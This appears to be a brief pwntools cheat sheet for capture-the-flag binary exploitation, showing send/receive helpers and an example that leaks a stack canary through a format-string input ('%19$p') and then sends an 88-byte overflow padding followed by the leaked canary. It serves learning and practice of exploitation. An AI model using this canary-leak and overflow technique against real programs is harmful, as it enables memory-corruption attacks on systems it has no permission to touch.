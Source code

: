 #Examples

#send one line
io.sendline("")

#rec until 
io.recvuntil("")

#output for debug
info("")

#recv canary
io.recvuntil("string")
io.sendline("%19$p")
canary = io.recvline().strip() 
#print canary for output
info(f"canary = {canary}")
#send canary in payload
io.sendline(("A"*88).encode()+p64(int(canary, base=16)))
